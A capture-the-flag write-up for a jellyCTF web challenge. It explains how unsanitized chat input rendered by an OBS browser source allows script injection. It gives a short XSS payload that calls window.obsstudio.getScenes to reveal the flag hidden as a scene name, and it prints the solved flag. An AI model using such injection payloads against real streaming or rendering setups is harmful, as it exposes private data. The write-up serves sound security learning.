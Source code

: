 # pentest_on_stream
Writeup author: **taodragon_**

Point count: 766pts

Difficulty: medium

Provided files: pentest_on_stream.zip

Description: 
> does this alien princess even sanitize her inputs? see if you can figure out what's going on **behind the scenes**
#

Looking at `app/obs_worker.py`, the program visits a webpage locally and takes a screenshot. From `app/server.py`, we see that user input is not sanitized, and with some testing, we see that we can use `<script>` tags.

In `/obs-studio/basic/scenes/scenes.json` we find the following lines:
```
{
    "current_scene": "chat",
    "current_program_scene": "chat",
    "scene_order": [
        {
            "name": "chat"
        },
        {
            "name": "jellyCTF{redacted}"
        }
    ],
...
    "sources": [
        {
            "prev_ver": 503382018,
            "name": "Browser",
            "uuid": "4f234afd-e963-47e3-98b2-d754742c6707",
            "id": "browser_source",
            "versioned_id": "browser_source",
            "settings": {
                "is_local_file": true,
                "local_file": "/app/chat.html",
...
```
The flag is the name of a scene in OBS. We also see that the screenshot is taken with a browser source. We can read [the documentation of obs_browser](https://github.com/obsproject/obs-browser?tab=readme-ov-file#get-scenes) to find the javascript function `window.obsstudio.getScenes`, which returns the scenes. We can use this to get the flag.

Payload: 
```
<span id="pbchocolate">placeholder</span><script>window.obsstudio.getScenes(function (scenes) {document.getElementById('pbchocolate').innerHTML = scenes[1]})</script>
```
Flag: `jellyCTF{y0u_CANT_ju5t_d0_that_dud3}`
